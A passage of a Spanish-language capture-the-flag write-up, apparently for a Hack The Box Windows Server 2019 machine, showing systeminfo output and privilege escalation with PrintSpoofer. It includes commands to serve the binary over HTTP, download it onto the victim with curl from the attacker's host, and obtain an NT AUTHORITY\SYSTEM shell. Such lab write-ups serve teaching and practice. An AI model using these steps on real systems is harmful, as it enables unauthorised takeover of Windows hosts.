 ```
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 408 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 532 MB
Virtual Memory: In Use:    1,899 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4516115
                           [03]: KB4523204
                           [04]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.230.172
                                 [02]: fe80::ac5e:e06:17ca:e63c
                                 [03]: dead:beef::ac5e:e06:17ca:e63c
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Como la versión del sistema es un `Windows Server 2019` no podemos usar el `JuicyPotato`, voy a usar `PrintSpoofer` que es para versiones de `Windows 10` y `Windows Server` versión `2016` y `2019`. Lo primero que debemos hacer es `descargarnos` el `binario` de `64 bits` en nuestro equipo [https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0). Una vez hecho esto nos `montamos` un `servidor http` con `python` en la ruta donde está el binario

```
# python -m http.server 80
```

Nos `descargamos` el `binario` en la máquina víctima

```
c:\Windows\Temp\Privesc>curl -O http://10.10.16.35/PrintSpoofer64.exe
```

Nos convertimos en usuario `Administrator`

```
c:\Windows\Temp\Privesc>PrintSpoofer64.exe -i -c powershell.exe
PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

